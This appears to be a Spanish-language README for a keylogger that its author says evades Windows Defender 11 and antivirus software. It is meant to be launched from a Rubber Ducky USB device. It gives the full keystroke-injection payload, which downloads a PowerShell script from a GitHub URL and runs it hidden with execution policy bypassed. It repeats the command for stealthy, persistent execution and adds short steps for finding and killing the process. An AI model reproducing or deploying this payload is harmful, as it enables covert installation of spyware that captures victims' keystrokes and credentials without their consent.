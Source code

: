 ***Keylogger con evasión de Windows Defender 11 y Antivirus.***

By R.G.M - 2025



Keylogger capaz de evadir Windows Defender 11 y Antivirus.
Creado con la idea de ejecutarlo remotamente desde un rubberducky.


---------------------------------------------------------------
PAYLOAD para RUBBER DUCKY;
---------------------------------------------------------------

DELAY 20

GUI r

DELAY 20

STRING cmd

ENTER	

ENTER

DELAY 20

STRING powershell

ENTER

DELAY 20

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/C4sp3r2222/duckylog/main/script.ps1" -OutFile "$env:USERPROFILE\Desktop\script.ps1"

ENTER

DELAY 300

STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

ENTER


---------------------------------------------------------------
-EJECUCION en Powershell en modo sigiloso y persistente:
---------------------------------------------------------------

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

---------------------------------------------------------------
-DETENCION DE SCRIPT:
---------------------------------------------------------------

-Ejecutar en Powershell:
Get-CimInstance Win32_Process | Where-Object { $_.CommandLine -like '*script.ps1*' } | Select-Object ProcessId, CommandLine

-(Veremos un numero de proceso asociado Ej: 1234 )

-Para detenerlo, ejecutar en powershell:
Stop-Process -Id 1234 -Force

(Detenemos el proceso)
